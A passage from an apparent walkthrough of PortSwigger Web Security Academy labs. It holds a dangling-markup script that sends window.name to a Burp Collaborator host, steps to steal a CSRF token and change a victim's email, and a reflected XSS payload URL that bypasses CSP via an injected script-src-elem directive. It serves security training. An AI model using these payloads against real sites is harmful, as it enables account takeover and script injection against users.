    new Image().src='//burp-collab-subdomain?'+encodeURIComponent(window.name);
    } else {
        location = 'https://lab-id.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

6. Click **Store** and then **Deliver exploit to victim**. When the user visits the website containing this malicious script, if they click on the "Click me" link while they are still logged in to the lab website, their browser will send a request containing their CSRF token to your malicious website. You can then steal this CSRF token using the Burp Collaborator client.
7. Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see an HTTP interaction that was initiated by the application. Select the HTTP interaction, go to the request tab, and copy the user's CSRF token.

```text
gO5FXqB3x1YvlTNGh9o0BXK2TumhZF4H
```
8. With Burp's Intercept feature switched on, go back to the change email function of the lab and submit a request to change the email to any random address.
9. In Burp, go to the intercepted request and change the value of the email parameter to `hacker@evil-user.net`:


10. Right-click on the request and, from the context menu, select "Engagement tools" and then "Generate CSRF PoC". The popup shows both the request and the CSRF HTML that is generated by it. In the request, replace the CSRF token with the one that you stole from the victim earlier.


11. Click "Options" and make sure that the "Include auto-submit script" is activated.
12. Click "Regenerate" to update the CSRF HTML so that it contains the stolen token, then click "Copy HTML" to save it to your clipboard.
14. Drop the request and switch off the intercept feature.
15. Go back to the exploit server and paste the CSRF HTML into the body. Overwrite the script that entered earlier.


16. Click **Store** and **Deliver exploit to victim**. The user's email will be changed to `hacker@evil-user.net`.

### Exploitability

To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.

----

## Reflected XSS protected by CSP, with CSP bypass

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass) uses CSP and contains a reflected XSS vulnerability. 

### Reproduction and proof of concept

1. Enter the following into the search box:

```text

```

2. Note the payload is reflected, but the CSP prevents the script from executing.
3. In Burp Proxy, observe that the response contains a `Content-Security-Policy` header, and the `report-uri` directive contains a parameter called token. Because you can control the token parameter, you can inject your own CSP directives into the policy.

```text
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

4. Visit the following URL, replacing `0a87000e04aa4aacc0a72cd800b1007d` with your lab ID:

```text
https://0a87000e04aa4aacc0a72cd800b1007d.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```

The injection uses the `script-src-elem` directive in CSP. This directive allows for targeting just script elements. Using this directive, it is possible to overwrite existing `script-src` rules enabling `unsafe-inline` injections, which allows for using inline scripts.

